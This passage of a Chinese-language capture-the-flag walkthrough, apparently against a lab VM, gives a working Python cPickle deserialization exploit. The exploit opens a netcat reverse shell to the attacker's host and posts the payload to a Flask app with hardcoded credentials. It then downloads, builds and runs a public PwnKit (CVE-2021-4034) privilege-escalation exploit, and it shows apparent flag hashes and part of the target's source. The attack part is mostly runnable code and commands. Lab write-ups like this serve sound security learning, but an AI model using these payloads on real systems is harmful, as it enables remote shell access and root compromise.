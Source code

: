 这里有一个bug。就是它接收你的payload后生成的md5与你自己计算的md5不同
原因应该是系统的问题
这里我们使用它给的md5计算方法计算md5
如果我们要获取正确的md5 选择转为unix即可 然后再计算即可
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201001719.png)
```python
#coding:utf-8
import os
import cPickle
import hashlib
import requests


class CommandExecute(object):
        def __reduce__(self):
                return (os.system, ('nc 192.168.80.5 1234 -e /bin/bash',))

convert_data = cPickle.dumps(CommandExecute())
convert_crypt = hashlib.md5(convert_data).hexdigest()
print("md5:"+convert_crypt)
print("convert_data:"+convert_data)
send_requests = requests.post('http://192.168.80.7:1337/', data={"story":convert_data, "submit":"Submit+Query"}, auth=("lucas", "SuperSecretPassword123!"))
check_requests = requests.post('http://192.168.80.7:1337/checklist', data={"check":convert_crypt}, auth=("lucas", "SuperSecretPassword123!"))
print(check_requests.text)

```

监听 `1234` 端口获取shell

```bash
curl -u 'lucas:SuperSecretPassword123!' --basic http://192.168.80.7:1337/checklist -X POST --data 'check=f387dc63759af1e92868d3556f63ed9e'
```
## 6. PwnKit提权

使用 [LZS ](../../26-工具使用/lzs.sh%20使用.md) 进行检测
![](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/Pasted%20image%2020241201004318.png)
```bash
wget https://codeload.github.com/berdav/CVE-2021-4034/zip/main
unzip main
cd CVE-2021-4034-main
make
./cve-2021-4034
```

```
e25fd1b9248d1786551e3412adc74f6f
7a32c9739cc63ed983ae01af2577c01c
```

最后看一下完整的 `project.py`
```python
app = Flask(__name__, template_folder="templates", static_folder="/opt/project/static/")

def check_auth(username, password):
       """This function is called to check if a username /
       password combination is valid.
       """
       return username == 'lucas' and password == 'SuperSecretPassword123!'

def authenticate():
       """Sends a 401 response that enables basic auth"""
       return Response(
```